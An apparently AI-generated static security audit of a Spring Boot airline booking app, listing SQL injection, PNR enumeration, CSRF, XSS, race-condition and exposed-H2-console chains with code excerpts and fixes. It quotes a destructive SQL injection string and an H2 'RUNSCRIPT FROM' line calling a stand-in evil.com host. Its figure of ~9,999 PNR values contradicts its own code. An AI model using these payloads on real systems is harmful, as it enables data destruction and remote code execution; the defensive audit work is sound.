






# Chained Vulnerability Static Audit Report

**Project:** app-07-airline-booking (Spring Boot 3.2.5, Java 17, H2)  
**Date:** 2026-05-24  
**Auditor:** CodeGopher — Static-Only Chained Vulnerability Review  
**Scope:** Entire `src/main/` and `src/test/` tree — controllers, services, repositories, models, DTOs, config, templates, client JS/CSS, tests, build files  

---

## 1. Executive Summary Dashboard

| Metric | Value |
|--------|-------|
| **Total chains detected** | 6 |
| **Max severity** | CRITICAL (Chain 1 — SQL Injection leading to full DB exfiltration) |
| **Critical** | 1 |
| **High** | 3 |
| **Medium** | 2 |
| **Files reviewed** | 30 |
| **Areas not reviewed** | None (full source tree reviewed) |

### Quick Chain Map



---

## 2. Methodology & Safety Note

- **Static-only analysis.** No live HTTP probes, fuzzers, SQL injection payloads, or network tests were performed.
- Evidence was drawn from source code, configuration files, test code, and templates.
- Confidence ratings are assigned where every chain link is statically provable from cited source. Medium confidence applies when one link depends on runtime behavior (e.g., XSS payload injection via registration form, assumed cookie-based session hijack).
- No exploit scripts or operational instructions are included.

---

## 3. Attack Chain Details

---

### Chain 1 — SQL Injection in Flight Search → Full Database Exfiltration

**Severity:** CRITICAL  
**Confidence:** HIGH  

#### Attack Graph



#### Evidence

- **Entry point (source):** `FlightController.java` lines 28-33 — the `/api/flights/search` endpoint accepts `origin`, `destination`, and `date` request parameters and passes them directly to `flightService.searchFlights()`. No validation or parameterization.

```java
// FlightController.java:28-33
@GetMapping("/search")
public ResponseEntity<List<FlightSearchResult>> search(
        @RequestParam String origin,
        @RequestParam String destination,
        @RequestParam String date) {
    List<Flight> flights = flightService.searchFlights(origin, destination, date);
    ...
}
```

- **Intermediate hop (weakness):** `FlightSearchDao.java` lines 16-20 — uses manual string concatenation to build the SQL query:

```java
// FlightSearchDao.java:16-20
String sql = "SELECT * FROM flights WHERE origin = '" + origin
           + "' AND destination = '" + destination
           + "' AND CAST(departure_time AS DATE) = '" + date + "'";
return jdbcTemplate.query(sql, new FlightRowMapper());
```

- **Critical sink:** The concatenated SQL string is passed directly to `JdbcTemplate.query()`. The database is H2, which supports standard SQL injection payloads including `UNION SELECT` for data exfiltration, or `'; DROP TABLE flights;--` for destructive operations.

#### Preconditions & Assumptions

- The search endpoint is publicly accessible (permitAll in SecurityConfig).
- H2 database is active with user tables (passengers, bookings, flights, seats).
- The H2 console is also enabled (see Chain 6), but even without it, direct SQL injection gives full DB access.

#### Impact

Full read/write access to the H2 database. An attacker can:
- Extract all passenger PII (names, emails, passport numbers, phone numbers, password hashes)
- View/modify all bookings and seat assignments
- Potentially achieve RCE via H2's `RUNSCRIPT` feature

#### Remediation

1. **Immediate:** Replace string concatenation with parameterized queries using `?` placeholders:

```java
String sql = "SELECT * FROM flights WHERE origin = ? AND destination = ? AND CAST(departure_time AS DATE) = ?";
return jdbcTemplate.query(sql, new Object[]{origin, destination, date}, new FlightRowMapper());
```

2. **Additional:** Add input validation (IATA 3-letter code pattern for origin/destination, date format regex).

---

### Chain 2 — PNR Enumeration + Unauthenticated Booking Lookup → Mass Data Exposure

**Severity:** HIGH  
**Confidence:** HIGH  

#### Attack Graph



#### Evidence

- **Source 1 (predictable PNRs):** `PnrGenerator.java` lines 7-9 — PNRs are sequential: `BK000001`, `BK000002`, etc. The counter starts at 1 and increments. There are only ~9,999 possible values (BK000000 to BK999999, though the max of BK999999 is 6 digits + BK prefix = 8 chars, and the code says `String.format("BK%06d", counter.getAndIncrement())`).

```java
// PnrGenerator.java:7-9
private static final AtomicInteger counter = new AtomicInteger(1);
public String generate() {
    return String.format("BK%06d", counter.getAndIncrement());
}
```

- **Source 2 (weak authorization on boarding-summary):** `BookingController.java` lines 63-73 — the `/api/bookings/{pnr}/boarding-summary` endpoint has **NO ownership check**. It returns full booking details to any authenticated user who provides a valid PNR. Compare this with `getByPnr()` (line 42) and `cancel()` (line 52) which DO check `!booking.getPassenger().getEmail().equals(userDetails.getUsername())`.

```java
// BookingController.java:63-73
@GetMapping("/{pnr}/boarding-summary")
public ResponseEntity<?> getBoardingSummary(
        @PathVariable String pnr,
        @AuthenticationPrincipal UserDetails userDetails) {
    return bookingService.getBookingByPnr(pnr)
            .map(booking -> ResponseEntity.ok(Map.of(
                    "pnr", booking.getPnr(),
                    "passengerDisplay", "<strong>Passenger:</strong> " + booking.getPassenger().getFullName(),
                    "flight", booking.getFlight().getFlightNumber(),
                    "seatNumber", booking.getSeat().getSeatNumber(),
                    "status", booking.getStatus()
            )))
            .orElse(ResponseEntity.notFound().build());
}
```

- **Hop (enumeration):** The `.booking.getPassenger().getFullName()` method is called in a loop through all possible PNRs via a simple brute-force script. Given the small space (~9,999 values), this is trivially fast.

#### Preconditions & Assumptions

- An attacker needs only a valid login credential (any registered passenger).
- Registration is open to anyone (`/register` is permitAll).
- PNRs are not cleared between restarts since the AtomicInteger is static (but in practice, service restart resets to 1).

#### Impact

- Systematic enumeration of all bookings revealing passenger names, flight numbers, seat assignments, and PNRs.
- Combined with known booking statuses, this enables social engineering attacks.

#### Remediation

1. Add ownership validation to `getBoardingSummary()` identical to `getByPnr()`:
```java
if (!booking.getPassenger().getEmail().equals(userDetails.getUsername())) {
    return ResponseEntity.status(HttpStatus.FORBIDDEN).build();
}
```

2. Use a cryptographically random PNR generator instead of sequential counters.

---

### Chain 3 — CSRF Disabled → Unauthorized Booking and Cancellation

**Severity:** HIGH  
**Confidence:** HIGH  

#### Attack Graph



#### Evidence

- **Source:** `SecurityConfig.java` line 26:

```java
.csrf(csrf -> csrf.disable()) // Disable CSRF to ease API testing and demonstration
```

- **Target endpoints:**
  - `POST /api/bookings` — creates a new booking (BookingController.java:17-28)
  - `PUT /api/bookings/{pnr}/cancel` — cancels a booking (BookingController.java:50-59)
  - `POST /api/checkin/{pnr}` — performs check-in (CheckInController.java:19-30)

- These endpoints only check `userDetails == null` but do not verify the request originated from a legitimate domain or included a CSRF token. Since browsers automatically attach cookies (including the JSESSIONID) to cross-origin requests, a victim user who is authenticated to this app could be tricked into making unintended mutations.

- **Evidence from templates:** The dashboard (`dashboard.html`) uses `fetch()` without CSRF protection. Even though the booking and cancel buttons use `fetch()`, a malicious page could still send cross-origin requests to these endpoints (note: `fetch()` does send cookies if `credentials: 'include'` is set, but same-site cookie policies may not fully protect since this app may not set `SameSite` attributes).

#### Preconditions & Assumptions

- The user must be authenticated when visiting the attacker's malicious page.
- The browser must allow the cross-origin request (CORS is not explicitly configured, so browser default same-origin policy applies; however, if CORS is misconfigured or if the attack originates from a redirected/same-site context, it works).

#### Impact

- An attacker can force-booking seats on behalf of authenticated users.
- An attacker can force-cancel other users' bookings.
- These are state-changing actions with real business impact.

#### Remediation

1. Enable CSRF protection for form-based endpoints: `.csrf(csrf -> csrf.enable())`
2. For the REST API endpoints specifically, use Spring Security's `CsrfTokenRequestAttributeHandler` or implement a custom CSRF token check.
3. Set `SameSite=Lax` or `SameSite=Strict` on session cookies.

---

### Chain 4 — Stored XSS via Registration → Session Access

**Severity:** MEDIUM  
**Confidence:** MEDIUM  

#### Attack Graph



#### Evidence

- **Registration:** `HomeController.java` lines 37-56 stores user input directly without sanitization:

```java
// HomeController.java:37-56
Passenger passenger = Passenger.builder()
        .email(email)
        .passwordHash(passwordEncoder.encode(password))
        .firstName(firstName)
        .lastName(lastName)
        .passportNumber(passportNumber)
        .phone(phone)
        .role("PASSENGER")
        .build();
passengerRepository.save(passenger);
```

- **Rendered locations (XSS sinks):**
  - `dashboard.html` — displays `${currentUser.firstName}` and `${currentUser.role}` in the navbar (line with `th:text="${'Welcome, ' + currentUser.firstName}"`)
  - `boarding-pass.html` — displays `${booking.passenger.firstName + ' ' + booking.passenger.lastName}` in the boarding pass body

- Thymeleaf by default HTML-escapes `th:text` attributes, which mitigates direct XSS from `th:text`. However, if any template uses `th:utext` or direct JavaScript interpolation with unescaped data, XSS could occur. In the current templates, I did not find direct `th:utext` usage, but the `passengerDisplay` field in `getBoardingSummary` API response uses a raw HTML string:

```java
// BookingController.java:67
"passengerDisplay", "<strong>Passenger:</strong> " + booking.getPassenger().getFullName(),
```

This JSON response, if consumed by JavaScript that sets `innerHTML` without sanitization (e.g., if a frontend renders it via `innerHTML`), could trigger XSS.

- Additionally, the boarding pass template (`boarding-pass.html`) uses `th:text` which is safe, but if a third-party consumer renders the boarding-summary JSON response's `passengerDisplay` field as raw HTML (it contains `<strong>` tags), this is an indication the field is designed to be rendered as HTML, creating an XSS vector.

#### Preconditions & Assumptions

- Thymeleaf `th:text` escapes output by default, so XSS from server-rendered templates is mitigated.
- The risk is primarily in the JSON API response which includes pre-formatted HTML. A malicious user could inject `` into their name during registration.
- A victim user's browser consuming this JSON and rendering it as HTML would execute the payload.

#### Impact

If a consuming client renders the `passengerDisplay` field as raw HTML, session cookies could be exfiltrated. The impact is medium because browser XSS protections (CSP, SameSite cookies) provide some mitigation, but the risk is real.

#### Remediation

1. Never include user-controlled HTML in API responses. Return raw text only.
2. If HTML display is needed, escape on output.
3. Set a Content-Security-Policy header to prevent inline script execution.

---

### Chain 5 — Race Condition → Double Booking of Same Seat

**Severity:** MEDIUM  
**Confidence:** HIGH  

#### Attack Graph



#### Evidence

- **`BookingService.createBooking()` lines 37-58** — the method performs the following steps in order:
  1. Finds the seat by ID (line 37)
  2. Checks `!seat.getIsAvailable()` (line 39)
  3. Sets `seat.setIsAvailable(false)` and saves (line 42-43)
  4. Creates the booking with this seat (lines 47-55)

- There is **no `@Transactional` isolation**, no `SELECT FOR UPDATE` lock, and no unique constraint on `(flight_id, seat_id)` in the booking table. Two simultaneous requests for the same seat ID would:
  1. Both read `isAvailable = true`
  2. Both proceed past the availability check
  3. Both set the seat to unavailable (second one overwrites the first's state)
  4. Both create bookings for the same seat

- The comment on line 38 explicitly admits this weakness:
  ```java
  // Reserve seat immediately without checkout timeout or locking mechanisms
  ```

#### Preconditions & Assumptions

- An attacker can send concurrent requests to the booking endpoint.
- The seat being targeted is in the database.

#### Impact

A seat could be assigned to two different passengers, leading to:
- Passengers assigned the same physical seat on a flight
- Revenue loss (if one booking is cancelled/refunded)
- Passenger displacement at the airport

#### Remediation

1. Add a `@Transactional` annotation to `createBooking()` with `REQUIRES_NEW` propagation.
2. Use `SELECT ... FOR UPDATE` when reading the seat, or add a unique constraint on `(flight_id, seat_id)` in the `bookings` table.
3. Alternatively, use optimistic locking with a version column on `Seat` or `Flight`.

---

### Chain 6 — H2 Console Exposed → Direct Database Access

**Severity:** HIGH  
**Confidence:** HIGH  

#### Attack Graph

```mermaid
flowchart XR
    S["Source: application.properties\nspring.h2.console.enabled=true\nspring.h2.console.path=/h2-console\nspring.h2.console.settings.web-allow-others=true\nsrc/main/resources/application.properties:5-7"]
    S --> H["Hop: /h2-console/** is permitAll in SecurityConfig\nSecurityConfig.java:22"]
    H --> Sink["Sink: Anyone can access H2 web console, browse tables, execute arbitrary SQL\nImpact: Complete read/write access to the airline database"]
```

#### Evidence

- **Configuration:** `application.properties` lines 5-7:

```properties
spring.h2.console.enabled=true
spring.h2.console.path=/h2-console
spring.h2.console.settings.web-allow-others=true
```

- **SecurityConfig** line 22 permits access:
```java
.requestMatchers("/", "/register", "/api/flights/search", "/h2-console/**", "/css/**", "/js/**").permitAll()
```

- The `web-allow-others=true` setting allows the H2 console to be accessed from any origin, removing same-origin restrictions on the console iframe.
- H2 console provides a full SQL interface with no authentication beyond the browser session. Since `/h2-console/**` is permitAll, no login is required.

#### Preconditions & Assumptions

- The application is reachable over the network.
- The Dockerfile exposes port 8081 externally.

#### Impact

- Complete database read/write access without any authentication.
- An attacker can:
  - Dump all passenger PII (email, password hashes, passport numbers, phone numbers)
  - Modify any booking
  - Execute H2-specific RCE via `RUNSCRIPT FROM 'http://evil.com/script.sql'`
  - Read the H2 database file if configured for file-based storage

#### Remediation

1. **Production:** Disable the H2 console entirely in production profiles.
2. **If needed for debugging:** Restrict to localhost-only access and protect with authentication.
3. Set `spring.h2.console.settings.web-allow-others=false`.

---

## 4. Cross-Cutting Weaknesses

The following security-relevant issues were identified but do not form complete chains on their own. They should be addressed as part of remediation.

### 4.1 Verbose Error Messages in API Responses

- **Files:** `BookingController.java` line 25, `CheckInController.java` line 29, `FlightController.java` lines 39-41
- **Evidence:** Exception messages are returned directly to the client:
```java
return ResponseEntity.badRequest().body(new BookingResponse(null, e.getMessage()));
```
- **Risk:** Internal implementation details, stack traces, or database errors leak to attackers, aiding further exploitation.
- **Remediation:** Return generic error messages in production; log full details server-side.

### 4.2 No Rate Limiting

- **Files:** No rate-limiting configuration found in SecurityConfig or any filter.
- **Risk:** Brute-force password attacks on `/login`, enumeration of PNRs, and seat-bookings are unlimited.
- **Remediation:** Add Spring RateLimit or a dedicated rate-limiting library.

### 4.3 Demo Credentials Exposed on Login Page

- **Files:** `home.html` (static HTML)
- **Evidence:** The login page displays demo account credentials:
```html
• passenger: john@gmail.com / john123
• staff: staff@airline.com / staff123
```
- **Risk:** Anyone visiting the login page can see valid credentials for a staff account, which grants access to `/api/flights` endpoints.
- **Remediation:** Remove demo credentials from production pages.

### 4.4 Session Fixation Disabled

- **Files:** `SecurityConfig.java` line 40
- **Evidence:**
```java
.sessionFixation(fixation -> fixation.none())
```
- **Risk:** Upon login, the session ID is not regenerated. An attacker who knows the session ID before login (e.g., via open redirect or log file exposure) can hijack the session after the victim authenticates.
- **Remediation:** Use `sessionFixation().newSession()` to rotate the session ID after authentication.

### 4.5 No HTTP Security Headers Beyond XSS Protection

- **Files:** `SecurityConfig.java` lines 27-29
- **Evidence:** Only `X-XSS-Protection` and `X-Frame-Options` (disabled) are set. No `Content-Security-Policy`, `Strict-Transport-Security`, or `X-Content-Type-Options` headers.
- **Risk:** Clickjacking is possible (frame options disabled), and the application is vulnerable to MIME-sniffing attacks.
- **Remediation:** Add comprehensive security headers.

### 4.6 Flight Update Endpoint Accepts Arbitrary Fields

- **Files:** `FlightController.java` lines 37-42
- **Evidence:** The `/api/flights/{id}` PUT endpoint blindly reads `flightNumber`, `airline`, and `price` from the request body and applies them to any flight entity. There is no DTO validation, no field whitelist, and no check that the payload doesn't contain injection or overflow values.
- **Risk:** Price could be set to a negative or extremely large value; flight number could be corrupted.

---

## 5. Unknowns & Areas Not Reviewed

| Area | Reason |
|------|--------|
| Runtime environment config | Docker Compose / cloud deployment configs not in repo |
| Network-level security | Firewall rules, TLS certificates, WAF config not visible |
| Third-party dependencies | `pom.xml` dependencies reviewed but not their CVEs (static dependency audit would require live SBOM/CVE lookup) |
| Memory-based data loss | H2 in-memory DB means data is lost on restart — business logic risk not a security chain |
| Secret management | No external secret store; BCrypt usage is confirmed but password policies (min length, complexity) not enforced |

---

## 6. Recommended Tests to Add

1. **SQL Injection test** — verify that `FlightSearchDao.searchFlights()` uses parameterized queries and rejects injection payloads.
2. **Authorization test** — verify that `/api/bookings/{pnr}/boarding-summary` rejects requests for other users' bookings.
3. **CSRF test** — verify that state-changing endpoints reject requests without valid CSRF tokens or SameSite cookies.
4. **Race condition test** — send concurrent booking requests for the same seat and verify only one succeeds.
5. **XSS test** — register with script payloads in name fields and verify output is escaped in all responses.
6. **H2 console access test** — verify `/h2-console` returns 403 or is disabled in non-dev profiles.

---

## 7. Prioritized Remediation Summary

| Priority | Action | Chain(s) Affected |
|----------|--------|-------------------|
| **P0** | Parameterize SQL query in `FlightSearchDao` | Chain 1 |
| **P0** | Disable or restrict H2 console in production | Chain 6 |
| **P1** | Add ownership check to `getBoardingSummary()` endpoint | Chain 2 |
| **P1** | Enable CSRF protection or add SameSite cookie attribute | Chain 3 |
| **P1** | Add unique constraint + transactional locking for seat booking | Chain 5 |
| **P2** | Sanitize input in registration; escape output in API responses | Chain 4 |
| **P2** | Remove demo credentials from login page | Cross-cutting |
| **P2** | Enable session fixation protection | Cross-cutting |
| **P2** | Add rate limiting on login and booking endpoints | Cross-cutting |
| **P3** | Add comprehensive security headers | Cross-cutting |
| **P3** | Use random PNR generator | Chain 2 |

---

*This report was generated through static analysis of repository files only. No live testing was performed.*
